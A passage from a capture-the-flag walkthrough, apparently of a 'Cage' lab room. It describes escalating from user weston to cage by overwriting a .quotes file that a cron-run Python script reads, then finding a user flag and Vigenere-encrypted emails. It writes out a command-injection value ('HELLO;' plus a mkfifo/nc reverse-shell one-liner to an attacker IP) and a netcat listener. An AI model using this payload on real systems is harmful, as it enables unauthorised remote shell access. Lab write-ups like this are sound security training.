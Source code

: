 If I could overwrite *.quotes*, I could **inject a reverse shell payload** that would be executed by the Python script, effectively granting me a shell as cage. 

To confirm this possibility, I checked my group memberships with the `id` command and discovered that the user weston was ALSO part of the "cage" group...really Cage? 🤨

This meant I had the necessary permissions to edit the *.quotes* file and proceed with privilege escalation.

## Shell as C#g3

I proceeded to craft a payload for a reverse shell. The payload was written as follows:
```console
echo "HELLO;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ur attack IP> <ur nc port> >/tmp/f" > .quotes
```

> the "HELLO" is for the python script that extracts strings (so the script doesn't crash) and ";" is to execute a command as OS.
{: .prompt-tip }

On another terminal, I set up a listener using:
`nc -lvnp 4444`

From here, it was only a matter of waiting for the cronjob to execute the Python script.

And as expected, we successfully obtained a shell as the **cage** user.

I also enumerated the current directory using the ls command. The result revealed one file and a subdirectory:

![cage room](cage_shell.png){: width="500" height="500" .shadow}

### User flag

Upon inspecting the file Super_Duper_Checklist, I was surprised to discover what appeared to be the user flag:

![cage room](user_flag.png){: width="600" height="500" .shadow}

After that, I navigated into the *email_backup* directory, which contained three email files. 

By reviewing them one by one, I noticed that **the third email** included a very intriguing clue: a string of ciphertext.

![cage room](ciphertext.png){: width="800" height="500" .shadow}

Given the context, I hypothesized that the encryption method could be Vigenere again...

So to test this assumption, I copied the ciphertext into an online decryption tool. Naturally, I needed a key.

### The next key.

Upon closer inspection of all three emails, I observed that the word **FACE** appeared in uppercase multiple times, particularly in the third email. 

